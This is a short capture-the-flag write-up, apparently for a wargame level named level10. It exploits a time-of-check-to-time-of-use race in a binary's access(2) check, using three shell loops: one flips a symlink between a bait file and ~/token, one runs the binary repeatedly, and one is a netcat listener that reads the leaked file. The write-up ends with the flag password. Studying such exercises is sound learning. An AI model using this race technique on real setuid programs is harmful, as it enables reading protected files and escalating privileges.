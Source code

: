 # level10

`./level10` uses `access(2)` -> we can create a file we have permition to access & quickly replace it to a symlink to `~/token`

Three separate jobs are needed here:

```bash
# Create a symlink and a bait
touch /tmp/bait;
while true; do ln -sf ~/token /tmp/lnk; ln -sf /tmp/bait /tmp/lnk; done
```

```bash
# Execute the program on the symlink in a loop
while true; do ./level10 /tmp/lnk 127.0.0.1; done
```

```bash
# Read the output
nc -klv 6969 2>/dev/null | grep -v '.*('
```

-> Password to flag10: `woupa2yuojeeaaed06riuj63c`
